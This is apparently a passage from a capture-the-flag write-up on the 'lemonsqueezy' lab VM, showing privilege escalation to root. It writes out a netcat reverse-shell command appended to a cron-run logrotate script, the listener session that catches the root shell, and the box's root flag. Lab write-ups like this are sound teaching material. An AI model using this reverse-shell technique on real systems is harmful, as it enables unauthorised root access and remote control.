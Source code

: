 ## Privilege Escalation 
### Cron Job

To get root I added a netcat reverse shell to logrotate script, started a netcat listener wait a minutes and I got a root shell.

```console
www-data@lemonsqueezy:/dev/shm$ echo 'os.system("nc 192.168.179.1 1331 -e /bin/bash ")' >> /etc/logrotate.d/logrotate

root@kali:~$ nc -vlnp 1331
listening on [any] 1331 ...
connect to [192.168.179.1] from (UNKNOWN) [192.168.179.158] 41410
id
uid=0(root) gid=0(root) groups=0(root)
script -qc /bin/bash /dev/null
root@lemonsqueezy:~# ls
ls
root.txt
root@lemonsqueezy:~# cat root.txt
cat root.txt
NvbWV0aW1lcyBhZ2FpbnN0IHlvdXIgd2lsbC4=
```

